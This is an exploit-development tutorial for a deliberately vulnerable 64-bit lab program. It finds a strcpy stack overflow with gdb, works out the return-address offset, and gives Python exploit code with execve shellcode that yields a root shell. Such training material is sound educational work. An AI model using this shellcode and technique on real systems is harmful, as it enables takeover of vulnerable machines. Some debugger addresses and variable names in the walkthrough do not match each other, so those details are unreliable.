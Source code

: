# Development of a buffer overflow exploit - 64 bit

## Introduction

We will create a functional exploit for a 64 bit program with a stack overflow vulnerability. This includes
finding the vulnerability, get all necessary information for our exploit, and create a sample exploit as
python program.


## Goal

* Implement a fully working exploit for x64
* Get our static and dynamic analysis skills to the next level
* Introducing pwntools


## Source

This is the same as challenge 11, but in 64 bit.

You can compile it by calling `make` in the folder `~/challenges/challenge12`


## Analysis

```
root@hlUbuntu64:~/challenges/challenge12# file challenge12
challenge12: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9397ca5655aeb327386bb0d572717f9906978301, not stripped
```


## Vulnerability

Reminder: the vulnerability lies here:

```c
void handleData(char *username, char *password) {
	...
	char firstname[64];
	...
	strcpy(firstname, username);
	...
}

int main(int argc, char **argv) {
	...
	handleData(argv[1], argv[2]);
}
```

The first command line argument of the program is copied into a stack buffer of 64 byte size.


## Find offset

You can crash the program by giving longer and longer strings as first argument.

Depending on the amount of overflow, one of these conditions can appear:
- Not enough overflow: Program exits cleanly, `isAdmin` is 0x0
- Nearly enough overflow: Program exists cleanly, `isAdmin` is overflowed (has 0x41's)
- Overflow into SBP: Program crashes, but with `RIP` = 0x400833 or similar (no 0x41's)
- Overflow into SIP: Program crashes, with `RIP` = 0x0000004141 (what we want)
- Overflow too far into `SIP`: Program crashes, with `RIP` = 0x4007d3 or similar (again no 0x41's)

### Nearly enough overflow

Offset: 70

```
(gdb) run `python -c 'print "A" * 70 + "BBBB"'` test
You are admin!
isAdmin: 0x4242
[Inferior 1 (process 504) exited normally]
```

### Overflow into SBP

Offset: 78

```
(gdb) run `python -c 'print "A" * 78 + "BBBB"'` test
You are admin!
isAdmin: 0x42424141

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400832 in main ()
```

### Overflow into SIP

Offset: 86

```
(gdb) run `python -c 'print "A" * 86 + "BBBB"'` test
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004242 in ?? ()
```

Offset: 88
```
(gdb) run `python -c 'print "A" * 88 + "BBBB"'` test
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x0000000042424242 in ?? ()
```

`0x0000000042424242` is exactly "BBBB" - no byte too much or too little.
Therefore, offset is 88 bytes.


### Overflow too far into SIP

Offset: 92

```
(gdb) run `python -c 'print "A" * 92 + "BBBB"'` test
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007d3 in handleData ()
```

We have completely overwritten SIP here, all 64 bits. This is not a valid address, therefore
RIP is now `0x00000000004007d3`. Very confusing.


## Find buffer base address

We want to identify the buffer address of the variable `name` in the function `handleData()`,
as there will be our shellcode be located.

For this, we set a breakpoint exactly before `strcpy(name, username)` gets executed.
The register RDI contains the first parameter for `strcpy()`, and therefore points
to our variable / buffer / shellcode.

We take care to be as realistic as possible, and give a input buffer of the same size
as the actual exploit: offset 84 + 8 byte SIP.


Disassemble the main function:
```
gdb-peda$ disas handleData
Dump of assembler code for function handleData:
...
   0x00000000004007db <+60>:    mov    rdx,QWORD PTR [rbp-0x58]
   0x00000000004007df <+64>:    lea    rax,[rbp-0x50]
   0x00000000004007e3 <+68>:    mov    rsi,rdx
   0x00000000004007e6 <+71>:    mov    rdi,rax
=> 0x00000000004007e9 <+74>:    call   0x4005e0 <strcpy@plt>
...
```

Lets break before calling `strcpy()`:
```
gdb-peda$ b *handleData+74
Breakpoint 1 at 0x400783
```

And run it with some dummy data:

```
gdb-peda$ run `python -c 'print "A" * 88 + "BBBB"'` test
Starting program: /root/challenges/challenge12/challenge12 AAAAAAAA BBBBBBBB

Breakpoint 1, 0x0000000000400828 in main ()
```

Lets check the buffer where `strcpy()` copies the argument. It is in RDI.

```
gdb-peda$ i r rdi
rdi            0x7fffffffe560   0x7fffffffe560
gdb-peda$ x/32x $rdi
0x7fffffffe560: 0x58    0x58    0x58    0x58    0x58    0x58    0x58   0x58
0x7fffffffe568: 0x58    0x58    0x58    0x58    0x58    0x58    0x58   0x58
0x7fffffffe570: 0x58    0x58    0x58    0x58    0x58    0x58    0x58   0x58
0x7fffffffe578: 0x58    0x58    0x58    0x58    0x58    0x58    0x58   0x58
```

Therefore, the start of the buffer, where our future shellcode will be, is `0x7fffffffe560`.


## Create an exploit

The prepared exploit skeleton is available at the file `challenge12-exploit-skel.py`.
Lets insert the correct values:

```python
#!/usr/bin/python
# Skeleton exploit for challenge12
import sys
import struct

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

buf_size = 64

offset = 88 # Offset we found
ret_addr = struct.pack('<Q', 0x7fffffffe560) # Memory address we found

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```

And try it:

```sh
root@hlUbuntu64:~/challenges/challenge12# gdb -q challenge12
Reading symbols from challenge12...(no debugging symbols found)...done.
(gdb) run `python ./challenge12-exploit-gdb.py` bbbb
Starting program: /root/challenges/challenge12/challenge12 `python ./challenge12-exploit-gdb.py` bbbb
Hello cmd-�������������������������������������1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAR����.
You are admin!
isAdmin: 0x41414141
process 364 is executing new program: /bin/dash
# id
uid=0(root) gid=0(root) groups=0(root)
```

We see that "/bin/dash" is being executed, and a shell prompt "#" is displayed. This means
that our exploit works!


## Questions

* Can you adjust the exploit so it works without GDB?
* Can you create an exploit which works in both, with and without GDB?
